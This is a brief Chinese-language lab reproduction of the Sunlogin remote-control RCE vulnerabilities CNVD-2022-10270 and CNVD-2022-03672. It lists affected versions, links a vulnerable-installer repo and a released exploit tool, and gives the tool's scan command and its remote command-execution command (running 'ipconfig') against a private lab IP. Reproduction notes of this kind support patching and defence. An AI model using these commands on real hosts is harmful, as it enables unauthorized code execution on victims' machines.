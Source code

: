 好多文章没提，这里说一句  
CNVD-2022-10270：向日葵  
CNVD-2022-03672：向日葵简约版  

# 0x01-漏洞浅析
无

# 0x02-影响版本
向日葵个人版for Windows <= 11.0.0.33826  
向日葵简约版            <= V1.0.1.43315（2021.12）  

# 0x03-环境搭建
此处包含受影响版本的向日葵：https://github.com/ce-automne/SunloginRCE  
下载后安装即可  

# 0x04-复现过程
victim如下图  
![image](./image/01.png)  
攻击程序：https://github.com/ce-automne/SunloginRCE/releases  
执行如下命令  
```
.\sunRce.exe -h 192.168.153.130 -n 2000 -p 40000-65535 -t scan

需要注意：目标是否开着防火墙，我这边一开始扫不到端口，后来将目标防火墙关闭后可以扫到  
```
如下图  
![image](./image/02.png)  
执行如下命令  
```
.\sunRce.exe -t rce -h 192.168.153.130 -p 49942 -c "ipconfig"
```
如下图  
![image](./image/03.png)  

# 0x05-需要注意
无
